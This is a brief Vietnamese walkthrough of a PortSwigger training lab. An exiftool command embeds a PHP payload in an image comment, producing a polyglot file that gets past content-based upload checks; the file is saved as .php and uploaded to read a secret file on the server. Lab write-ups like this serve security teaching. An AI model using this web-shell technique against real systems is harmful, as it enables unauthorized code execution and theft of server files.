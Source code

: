 # [Lab: Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)
## Yêu cầu:
Lab này sẽ sử dụng nội dung của file để xác minh đó có phải là hình ảnh hay không. Có thể dùng tài khoản `wiener:peter` để tải lên mã PHP đọc nội dung của file `/home/carlos/secret`

![](1.png)
---

Ở lab này cần tạo một file ảnh có nội dung của file PHP ở bên trong. Vì lab chỉ check theo nội dung của file nên có thể để file upload là `.php`:
Cần chuẩn bị một ảnh `a.png` sau đó sử dụng `exiftool` để tiến hành chèn đoạn code php vào phần comment bằng lệnh: 
`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" a.png -o b.php`.

Sau khi tạo được file php mới chỉ cần upload lên:

![](2.png)

Truy cập vào đường dẫn, đoạn mã sẽ được hiển thị giữa phần START và END:

![](3.png)

Submit là có thể hoàn thành:

![](4.png)